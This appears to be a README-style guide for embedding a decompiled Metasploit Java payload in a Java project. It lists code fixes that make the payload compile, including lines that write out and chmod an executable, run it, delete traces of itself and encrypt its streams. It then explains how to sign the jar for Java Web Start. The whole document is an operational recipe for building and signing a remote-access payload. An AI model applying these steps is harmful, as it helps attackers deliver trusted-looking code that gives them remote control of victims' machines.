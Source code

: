 1. Create a new java package within your Java program (e.g. `CNDSP`).
1. Drop in the following files into your Java package you just created: `Payload.java`, `PayloadTrustManager.java`
1. Drop in the `Metasploit.dat` file into the **Default Package** of your java program.
1. You will need to update the `Payload.java` program with the errors that the IDE cannot solve. When you export the jar file to `.java` files, they have generic **Objects** throughout the program which requires you to cast the objects as certain types.

### Errors you will need to fix
```java
//Line 55
File localObject1 = new File(localFile1.getAbsolutePath() + ".dir");
//Line 56
((File)localObject1).mkdir();
//Line 93 - 100
      File[] localObject6a = new File[] { (File)localObject3, ((File)localObject3).getParentFile(), (File)localObject2, (File)localFile3 };
      for (int k = 0; k < localObject6a.length; k++) {
        for (m = 0; (m < 10) && (!localObject6a[k].delete()); m++)
        {
          localObject6a[k].deleteOnExit();
          Thread.sleep(100L);
        }
      }
//Line 114
Runtime.getRuntime().exec(new String[] { "chmod", "+x", (String)localObject1 }).waitFor();
//Line 122
Runtime.getRuntime().exec(new String[] { (String)localObject1 });
//Line 175 - 177
        Object[] localObject6b = (Object[])Class.forName("saic.AESEncryption").getMethod("wrapStreams", new Class[] { InputStream.class, OutputStream.class, String.class }).invoke(null, new Object[] { localObject3, localObject4, localObject5 });
        localObject3 = (InputStream)localObject6b[0];
        localObject4 = (OutputStream)localObject6b[1];
//Line 277
String localObject = localStringTokenizer.nextToken();
```

Modifying these lines of code will fix any errors within the Metasploit Payload.

## Setting up the JKS Signing

1. Right Click your project and goto "Properties"
1. Then goto Application->Web Start
1. Click "Enable Web Start" Checkbox
1. Change Codebase to "No Codebase"
1. Under Signing, click "Customize"
1. Select "Sign by a specified key"
1. Find the jks file under Keystore Path
1. Type in your keystore password
1. Type in your Key Alias name
1. Type in your Keypassword
1. For Mixed Code, it should be set to "Enable Software Protections"
